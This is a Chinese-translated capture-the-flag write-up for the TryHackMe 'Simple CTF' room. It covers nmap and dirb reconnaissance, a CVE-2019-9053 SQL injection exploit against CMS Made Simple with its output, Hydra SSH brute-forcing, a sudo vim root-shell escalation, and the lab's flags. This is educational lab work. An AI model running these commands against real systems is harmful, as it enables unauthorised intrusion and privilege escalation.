# 简单 CTF(特写)

> 原文：<https://infosecwriteups.com/simple-ctf-write-up-7940aa287225?source=collection_archive---------0----------------------->


# 介绍

这是一个相对容易的[房间](https://tryhackme.com/room/easyctf)让你开始使用 CTFs，随时可以在 [Twitter](https://twitter.com/Nouureldin_Ehab) 和 [Linkedin](https://www.linkedin.com/in/noureldin-ehab-a57940190/) 上问我任何问题

# 侦察

在任何 CTF 中，我们需要做的第一件事就是使用 [Nmap](https://nmap.org/) 扫描开放的端口(如果你不知道什么是 Nmap，我建议你查看一下[这个房间](https://tryhackme.com/room/furthernmap)

```
sudo nmap -sS -sV {Add your machine ip here}
```

-sS 标志用于 TCP SYN 扫描

-sV 标志用于版本扫描

请访问[文档](https://nmap.org/docs.html)了解更多关于标志以及如何使用它们的信息



(这里我们看到端口 21(FTP)、88(HTTP)、2222(ssh)是打开的)

**端口 1000 下运行多少服务？**

*   `2`
*   **在更高的端口上运行的是什么？**
*   `ssh`

现在我们知道了打开的端口，我决定检查它们，让我们从 FTP 开始

**FTP(21):**
我试着用 FTP 连接到机器

```
ftp {Add your machine ip here}
```

但结果是一个兔子洞。

**HTTP(88):**
这是一个 web 服务器，所以我尝试通过在浏览器中写入机器 ip 地址来连接它



我决定用一个叫做 [dir buster](https://tools.kali.org/web-applications/dirbuster) 的工具来强行打开这个目录(这是一个预先下载的 kali 工具，这个工具是由 OWASP 开发的)

```
dirb http://{Add your machine ip here}/
```



太棒了，现在我们发现几个目录，让我们检查一下

先说`/simple`

**访问:**

```
http://{Add your machine ip here}/simple/
```



(如果你不知道什么是 CMS，我真的推荐你阅读这个[博客](https://kinsta.com/knowledgebase/content-management-system/)

正如我们所见，这是一个内容管理器(CMS)，称为“CMS 使简单”。让我们看看是否有这个 CMS 的简历



如果我们仔细检查网站，我们将能够看到 CMS 版本(2.2.8)

# 威胁建模

通过使用一个叫做 searchsploit 的工具(这是一个搜索著名网站[漏洞数据库](https://www.exploit-db.com/searchsploit)寻找 CVEs 的工具)

```
searchsploit cms made simple 2.2.8
```


(如果你想了解更多关于 SQL 注入的信息，查看这个[博客](https://www.w3schools.com/sql/sql_injection.asp)

因为我们看到它容易受到 SQL 注入的攻击

我们可以通过谷歌搜索找到 CVE 的电话号码



*   **你对应用程序使用的 CVE 是什么？**
*   `CVE-2019-9053`

正如我们前面看到的,“CMS 变得简单”容易受到 SQL 注入的攻击

*   **应用程序易受哪种漏洞的攻击？**
*   `SQLi`

# 剥削



现在我们将使用我们发现的漏洞，让我们使用我们使用 searchsploit 发现的 python 模块

```
searchsploit -m 46635
```

如果设置了-c 标志，python 脚本需要一个 ip 地址和一个可选的单词列表。
(为了避免运行脚本时出现任何问题，请使用 python2 并确保下载(termcolor 和 requests)它们是脚本使用的 python 模块，您可以使用 pip install 下载它们)

现在让我们运行脚本:

```
python 46635.py -u http://{Add your machine ip here}:80/simple --wordlist=/usr/share/wordlists/rockyou.txt -c[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

现在，既然我们有了一个 hash，我们可以使用 [HashCat](https://hashcat.net/hashcat/) 来破解它



正如我们所见，Hashcat 无法破解它，所以我尝试了[开膛手约翰](https://www.openwall.com/john/)但也失败了，所以我决定尝试[九头蛇](https://github.com/vanhauser-thc/thc-hydra)暴力破解 ssh，因为现在我们有了一个用户名(米奇)

```
hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://{Add your machine ip here}:2222 -t 4
```



*   **密码是什么？**
*   `secret`
*   使用获得的详细信息，您可以在哪里登录？
*   `ssh`

现在，因为我们知道用户名(mitch)和密码(secret ),所以我们可以使用 ssh 连接到机器

```
ssh mitch@{Add your machine ip here} -p 2222
```



现在我们在 yaaaaaaaaaaaay


当您写下`whoami`时，您会看到我们以“mitch”的身份登录

现在我们将编写`ls`来查看当前目录中有哪些文件



我们看到只有一个名为“user.txt”的文件

所以我们使用`cat user.txt`来运行文件



*   **用户标志是什么？**
*   `G00d j0b, keep up!`

现在让我们使用`cd ..`转到根目录，然后使用`ls`查看除 mitch 之外是否还有其他用户



*   **主目录中还有其他用户吗？它叫什么名字？**
*   `Sunbath`

# 利用后(权限提升)

为了有一个更稳定的 shell，我们需要运行`/bin/bash`

现在我们需要运行`sudo -l`来查看 mitch 被允许作为 root 运行哪些命令



在这里，我们注意到我们可以使用 root 访问权限运行`vim`,我发现这个[博客](https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d)解释了如何使用`vim` (-c 标志)运行系统命令

*   **您可以利用什么来生成特权外壳？**
*   `vim`

现在我们将尝试运行`sudo vim -c '!whoami'`,看看我们是否是 root

它工作了，现在让我们尝试使用`sudo /usr/bin/vim -c ':!/bin/sh'`来创建根外壳

现在，既然我们是根，让我们运行`ls -la`



现在让我们使用`cat /root/root.txt`命令来抓取 root.txt 文件



*   **根旗是什么？**
*   `W3ll d0n3\. You made it!`

# 我喜欢与不同的人联系，所以如果你想打招呼，我会很高兴见到你！:)

[**LinkedIn**](https://www.linkedin.com/in/noureldin-ehab-a57940190/)[**Twitter**](https://twitter.com/Nouureldin_Ehab)

🔈🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。 [**查看更多详情，在此注册。**](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)